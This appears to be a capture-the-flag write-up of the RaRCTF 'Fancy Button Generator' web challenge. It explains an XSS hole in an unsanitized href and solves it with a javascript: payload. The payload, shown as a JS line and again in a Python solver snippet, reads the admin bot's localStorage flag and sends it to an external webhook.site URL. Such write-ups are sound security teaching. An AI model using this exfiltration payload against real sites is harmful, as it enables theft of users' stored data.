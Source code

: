 ```yaml
---
grand_parent: Categories
parent: Web
title: Fancy Button Generator
nav_order: 1
---
```


# Fancy Button Generator

```
Check out this cool new fancy button generator! The buttons even glow!

https://fbg.rars.win/

Make sure to test your payloads using the full environment provided.
```

## Challenge

> TL;DR: Unsanitized input is inserted into an HTML `href` attribute, what could go wrong? Use the pseudo-protocol `javascript:` to execute JS and read the Admin's [localStorage](https://developer.mozilla.org/en-US/docs/Web/API/Window/localStorage) to loot the flag.

Looking at the given source code, it was clear that the objective of this challenge is to XSS the "Admin" bot:

**Source**: `FBG/chall/server.py`
```py
@app.route('/button')
def button():
    title = request.args.get('title')
    link = request.args.get('link')
    return render_template('button.html', title=title, link=link)

@app.route('/admin')
def admin():
    if (not session.get("verified")) or (not session.get("end")):
        return redirect("/pow")
    if session.get("end") < time.time():
        del session['pref']
        del session['suff']
        del session['end']
        del session['verified']
        return redirect("/pow")

    title = request.args.get('title')
    link = request.args.get('link')
    host = random.choice(["admin", "admin2", "admin3"])
    r = requests.post(f"http://{host}/xss/add", json={"title": title, "link": link}, headers={"Authorization": os.getenv("XSSBOT_SECRET")})
    return f'Nice button! The admin will take a look. Current queue position: {r.json()["position"]}'
```

Requesting for the path `/button` would render the button template page which uses the user-supplied HTTP parameters `title` and `link`. This lets us "test" our XSS payload before using the same input at `/admin`. The `/pow` "verification" requires the use of a solver script that the challenge provided (more on that later).

> We could also easily spin up a local environment since the docker files were given. 

Inspecting the button template file, we see how the template variables are used:

**Source**: `FBG/chall/templates/button.html`
```html
<a class="special-case" id="btn" href="{{ link }}"><button class="special-button"> {{ title }}</button></a>
```

From this, we immediately see that `link` is useful for us since the value is inserted directly into the `href` attribute without sanitization!

Let's verify this:

```
/button?link=javascript:alert(1)
```

<img src="images/fbg-01.jpg">

XSS works! Let's attack the admin now... But wait, where is the flag exactly? Inspecting the `docker-compose` file, we see that the flag is passed to the `admin` containers as an environment variable:

**Source**: `FBG/docker-compose.yml`
```yml
  admin:
    build:
      context: ./admin
      dockerfile: Dockerfile
    networks:
      - fbg
    environment:
      - SITE=https://fbg.rars.win/
      - FLAG=NOPE
      - XSSBOT_SECRET=NOPE
```

This environment value is subsequently used in the `admin` container, which reveals that the flag is hidden in the Admin's [localStorage](https://developer.mozilla.org/en-US/docs/Web/API/Window/localStorage):

**Source**: `FBG/admin/admin.js`
```js
await page.evaluate(flag => {
    localStorage.flag = flag;
}, process.env.FLAG);
```

So our XSS payload needs to grab the `flag` from the localStorage and exfiltrate it to our external server!

```js
javascript:window.location.replace('https://webhook.site/17924832-3f7c-4d6c-927b-42ae9adee557/?flag='+localStorage.getItem('flag'))
```

In order to access `/admin`, we need to pass the `/pow` verification. However, the solver script is provided. So we just need to append the following lines to the provided script:

```py
link = "javascript:window.location.replace('https://webhook.site/17924832-3f7c-4d6c-927b-42ae9adee557/?flag='%252BlocalStorage.getItem('flag'))"
res = s.get(host + "admin?title={}&link={}".format(title, link))
print(res)
```

Running it and obtaining the flag on our external server:
<img src="images/fbg-02.jpg">
<img src="images/fbg-03.jpg">

Flag: `rarctf{th0s3_f4ncy_butt0n5_w3r3_t00_cl1ck4bl3_f0r_u5_a4667cb69f}`
